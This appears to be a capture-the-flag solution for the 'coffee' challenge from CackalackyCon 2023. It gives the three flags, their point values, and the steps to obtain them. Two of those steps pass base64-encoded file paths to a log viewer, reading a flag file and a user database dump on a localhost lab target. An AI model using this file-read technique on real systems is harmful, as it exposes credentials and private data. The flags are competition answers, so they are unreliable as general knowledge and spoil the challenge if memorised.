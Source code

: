 # Solution for coffee
### First seen: CackalackyCon 2023
---

## Flags:
`am0ngth3stars`
`cashrul3s3v3rythingar0undm3`
`Maz10dyn3`

## Points
300
225
350


1. Login using creds gained from cheerio
2. In the log viewer, grab the get param and change to http://localhost:3000/logs?file=L2hvbWUvYXBwdXNlci9mbGFnLnR4dA==
3. Navigate to http://localhost:3000/orders/3225.txt
4. Navigate to http://localhost:3000/logs?file=L2FwcC91c2Vycy5kYg== for the db dump

